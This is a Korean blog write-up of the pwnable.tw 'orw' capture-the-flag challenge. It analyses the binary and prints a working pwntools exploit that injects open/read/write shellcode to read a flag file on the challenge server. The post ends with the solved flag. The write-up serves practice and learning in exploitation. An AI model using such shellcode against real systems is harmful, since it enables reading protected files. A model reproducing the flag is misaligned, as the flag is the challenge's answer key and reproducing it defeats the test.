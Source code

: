 ```yaml
---
layout: post
title: "[pwnable.tw] orw"
date: 2018-05-30 04:44
categories: "[Pwn]pwnable.tw"
tags: rotles98
---
```

>## orw [100 pts]
### Read the flag from `/home/orw/flag`.
### Only `open` `read` `write` syscall are allowed to use.
### `nc chall.pwnable.tw 10001`
### [orw](https://pwnable.tw/static/chall/orw)

- - -
# 0x00. 분석

{: refdef: style="text-align: center;"}
![file](/img/pwnable.tw/orw/01.png)
{: refdef}

32bit에 canary가 걸려있네여

{: refdef: style="text-align: center;"}
![IDA](/img/pwnable.tw/orw/02.png)
{: refdef}

IDA로 열어보면 쉘코드를 달라합니다아.

문제를 다시 보면 `open`, `read`, `write`를 쓰라고 하네여

- - -
# 0x01. 공격 방법

1. `open` : `/home/orw/flag`

2. `read` : `open`한 파일 읽기

3. `write` : `read`한 내용 출력

간단간단 합니다.

이제 쉘코드를 만들어 보내면 끝인데 `pwntools`의 `shellcraft`를 사용하겠습니다.

[이 사이트](https://docs.pwntools.com/en/stable/)를 뒤져보면 `pwntools`의 `shellcraft` 사용법도 나옵니다!

- - -
# 0x02. 익스플로잇

크기는 넉넉하게 `0x100`만큼 받았습니닷!

```python
#HOST = "localhost"
HOST = "chall.pwnable.tw"
#PORT = 4444
PORT = 10001

############################################

s = remote(HOST, PORT)

elf = ELF("./orw")
#libc = ELF("./")
pause()

############################################

payload = asm(shellcraft.open("/home/orw/flag"))
payload += asm(shellcraft.read("eax", "esp", 0x100))
payload += asm(shellcraft.write(1, "esp", 0x100))

s.send(payload)

s.interactive()
```

### FLAG{sh3llc0ding_w1th_op3n_r34d_writ3}